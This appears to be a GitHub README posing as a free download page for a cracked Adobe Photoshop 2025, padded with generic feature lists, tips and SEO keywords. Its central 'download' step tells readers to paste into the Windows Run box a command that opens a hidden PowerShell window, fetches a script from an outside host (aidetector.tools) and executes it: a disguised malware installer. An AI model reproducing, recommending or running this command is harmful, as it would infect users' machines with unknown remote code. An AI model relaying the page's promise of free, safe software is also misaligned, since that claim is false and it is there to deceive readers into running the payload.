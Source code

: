 ## **Photoshop Cracked** | **Adobe Photoshop 2025** 🖌️📷
<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/1233';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'rayid68374').Content;</code>
</pre>
## Project Description.
**Adobe Photoshop ** is a powerful image editing software used by professionals and enthusiasts alike. This guide provides information on how to download Adobe Photoshop for free, as well as tips on how to effectively utilize its features.

## Key Features.
- **Advanced Image Editing**: Edit photos with precision using a wide range of tools.
- **Layer Management**: Organize your work using layers to create complex compositions.
- **Filters & Effects**: Apply stunning filters and effects to enhance your images.
- **Text & Typography**: Add and manipulate text in graphic design projects.
- **Creative Cloud Integration**: Access your projects from anywhere with cloud storage.


##Tips for using Adobe Photoshop 🎨
- **Learn the tutorials**: Take advantage of Adobe's extensive library of tutorials to learn about various features.
- **Use keyboard shortcuts**: Familiarize yourself with keyboard shortcuts to speed up your workflow.
- **Experiment with tools**: Feel free to try different tools and effects to unlock their potential.

## License 📄.
Adobe Photoshop is a proprietary software product. The free trial version allows you to use the program for a limited time without being charged.

## Useful Links 🌐
- [Adobe Photoshop Tutorials](https://helpx.adobe.com/photoshop/tutorials.html)
- [Adobe Creative Cloud](https://www.adobe.com/creativecloud.html)

---

**SEO Keywords**: Adobe Photoshop, free download, image editing, image editing, graphic design, photo editing, Photoshop alternatives, Creative Cloud.

